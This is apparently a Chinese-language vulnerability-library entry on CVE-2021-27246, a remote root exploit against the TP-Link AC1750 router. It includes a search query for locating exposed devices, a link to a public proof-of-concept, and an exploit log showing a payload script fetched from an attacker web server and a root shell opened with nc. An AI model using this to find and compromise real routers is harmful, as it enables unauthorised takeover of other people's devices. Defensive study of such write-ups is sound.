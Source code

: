 # TP-Link AC1750 预认证远程代码执行漏洞CVE-2021-27246

## 漏洞描述

在TP-Link AC1750的tdpServer守护程序中存在漏洞，没有检查json数据的大小，导致了缓冲区溢出，通过缓冲区溢出，可以导致代码执行。

参考阅读：

- https://www.synacktiv.com/publications/pwn2own-tokyo-2020-defeating-the-tp-link-ac1750.html

## 网络测绘

```
app="TP_LINK-AC1750"
```

## 漏洞复现

- poc：https://github.com/synacktiv/CVE-2021-27246_Pwn2Own2020

```
$ bash exploit.sh 
[+] Launching web server for distribution of pwn.sh
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
INFO:tdpwn:Associating 49 onemesh clients...
INFO:tdpwn:Done!
    And wait for 80 seconds...
80 seconds left...
70 seconds left...
60 seconds left...
50 seconds left...
40 seconds left...
30 seconds left...
20 seconds left...
10 seconds left...
[+] Trying to exploit the tddp injection
INFO:tdp:Preparing tddpv1_configset payload
INFO:tdp:Sending payload

[+] Trying the root shell (Low probability of success...)
nc -v 192.168.0.1 12345
nc: connect to 192.168.0.1 port 12345 (tcp) failed: Connection refused

[ ] If shell hasn't succeed, don't worry, we retry 

INFO:tdpwn:Associating 49 onemesh clients...
INFO:tdpwn:Done!
    And wait for 80 seconds...
80 seconds left...
70 seconds left...
60 seconds left...
50 seconds left...
40 seconds left...
30 seconds left...
20 seconds left...
10 seconds left...
[+] Trying to exploit the tddp injection
INFO:tdp:Preparing tddpv1_configset payload
INFO:tdp:Sending payload
192.168.0.1 - - [30/Nov/2020 12:10:59] "GET /pwn.sh HTTP/1.1" 200 -

[+] Trying the root shell (High probability of success...)
nc -v 192.168.0.1 12345
Connection to 192.168.0.1 12345 port [tcp/*] succeeded!
uname -a
Linux ArcherA7v5 3.3.8 #1 Mon Sep 14 19:52:46 CST 2020 mips GNU/Linux
id
uid=0(root) gid=0(root)
^C[-] Stopping Webserver, now
Terminated
```


